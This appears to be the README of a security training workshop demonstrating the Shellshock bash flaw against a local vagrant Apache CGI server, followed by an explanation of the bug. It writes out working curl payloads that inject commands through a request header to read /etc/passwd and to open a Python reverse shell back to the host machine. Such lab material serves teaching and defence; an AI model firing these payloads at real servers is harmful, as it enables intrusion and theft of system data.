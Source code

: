 # Part 2 of the AppSec 101 injection workshop
### Created by Cade Cairns <cade@thoughtworks.com> and Chelsea Komlo <ckomlo@thoughtworks.com>

# Getting started on the Shellshock demo for this workshop

All necessary instruction & demo materials can be found within the shellshock subfolder
  
## Setup
   1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.
   2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."
   3. Test the following vulnerabilities against http://localhost:8080/cgi-bin/somefileofyourchoice.sh


## Demoing the vulnerability
### To test via the command line:

```sh
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl:

#### To just echo data:

```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```

#### To copy passwords:
```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```

#### To create a reverse shell:
 ```sh
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno    (),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```


## More information about Shellshock:
 Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition.

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.

### Why is CGI vulnurable?

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reach of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack.
 
 Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack.

